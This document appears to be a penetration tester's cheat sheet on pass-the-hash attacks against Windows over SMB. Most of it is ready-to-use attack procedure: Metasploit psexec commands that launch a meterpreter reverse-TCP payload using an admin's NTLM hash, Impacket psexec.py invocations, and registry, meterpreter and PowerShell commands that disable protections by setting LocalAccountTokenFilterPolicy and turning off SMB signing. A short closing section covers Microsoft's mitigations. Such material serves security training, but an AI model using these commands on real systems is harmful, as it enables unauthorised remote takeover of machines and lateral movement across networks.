



psexec
Prerequisite:
• NTLM hash & user
Metasploit’s PsExec exploit module supports pass-the-hash capabilities
The psexec module is often used by penetration testers
to obtain access to a given system that you already know the hashed credentials without cracking it.
With this
module we can authenticate to the target machine via SMB with Metasploit(msf)
as an admin user with only that admin's hash ◇
Metasploit psexec
msf > use exploit/windows/smb/psexec
msf > set RHOST [victims] #we can set more machines(range) in the network and test to "pass the hash" on them
msf > set LHOST [your_linux_ip_address]
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > set SMBUser [admin_name] #admin username
msf > set SMBPass [LANMAN]:[NT] #administrator's hash in LM:NT format
msf > show options #to review the settings for our attack
msf > db_disconnect #at the time that we write there is a bug in msf,
#to exploit we need to disconnect the database
msf > exploit
Metasploit's PsExec exploit can realize that we are using a hash here instead of a password and
launch its attack using pass-the-hash, making the target run the Metasploit payload
If the pass-the-hash
attack works successfully, you should get Meterpreter access to the target machine.
◇
Python3 psexec
kali@kali:~$ cd /usr/share/doc/python3-impacket/examples/
kali@kali:~$ psexec.py <FQDN>/<user>:<password>@<ipAddress> #with clear password
kali@kali:~$ python3 psexec.py <user>@<ipAddress> -hashes <LM:NTLM> #with hashes
 
Possible error messages:
•
"Exploit failed: ActiveRecord … Data has already been
taken“That is due to a bug in the Metasploit database feature and its interaction with credentials.
You can bypass that problem by disconnecting from the database by typing "db_disconnect” and then try to
exploit it again.
•
“Exploit failed [no-access]:
Rex::Proto::SMB::Exceptions::ErrorCode.......STATUS_ACCESS_DENIED (Command=117 WordCount=0)
error”That error occur when we try to access with a user that is in the Administrators group, but is
not an “actual” administrator(RID-500).
This because Microsoft released a patch for Windows 7 and Server 2008
to prevent the ability to pass-the-hash with non-RID 500 local administrator accounts
Here the article:
https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/A
summary of the article is done below in "Microsoft's Pass-the-Hash Mitigations"
This happen
because of two settings in the registry value,
The registry key that make the Windows system MORE
vulnerable:
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy #set the DWORD (32-bit) to 1
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature #set the DWORD (32-bit) to 0
LocalAccountTokenFilterPolicy → set to 1 allow non RID-500 user accounts (for example
users in the local administrator) to successfully pass-the-hash
To modify these values we have different
possibilities:
• reg (meterpreter command):
meterpreter > reg setval -k “HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System” -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1
meterpreter > reg setval -k “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters” -v RequireSecuritySignature -t REG_DWORD -d 0
• reg (cmd command)(
https://ss64.com/nt/reg.html):
C:\> reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
C:\> reg add HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
◇ To query the value of the registry keys
C:\> reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy
C:\> reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters /v RequireSecuritySignature
• Set-ItemProperty (powershell command):
PS> Set-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFilterPolicy -Value 1 -Type DWord
PS> Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\LanManServer\Parameters –Name RequireSecuritySignature –Value 0 –Type DWord
Microsoft's Pass-the-Hash Mitigations
Microsoft has released several patches in an attempt to mitigate pass-the hash attacks but it is a
fundamentally part of internal network authentication protocols (LM C/R, NTLMv1, NTLMv2, Kerberos) and cannot be
patched.
Patches: ◇
Microsoft
Security Advisory 2871997 KB2871997 patch (released May 2014): Available patch for Windows 7/Server 2008 R2
and incorporated by default from Windows 8.1
▪ Adds two security identifiers (SIDs)
- local accounts →
S-1-5-113 (NT AUTHORITY\Local account)
- local admins → S-1-5-114 (NT AUTHORITY\Local account and member of
Administrators group)
C:\> WMIC useraccount get name,sid #list of users an their SID
▪ Via Group Policy, you can restrict all remote administration using local accounts
◇ Windows
Defender Credential Guard: Available only for Windows 10 and Server 2016/2019
▪ Isolates secrets (Local
Security Authority Subsystem Service / lsass.exe) from the operating system using virtualization technology, Secure
Boot, and Trusted Platform Module
▪ Credential Guard isn’t a defense against passing the hash, it’s a defense
against attackers gaining access to hashes in the first place
Bibliography:
•
https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/
{kind=link}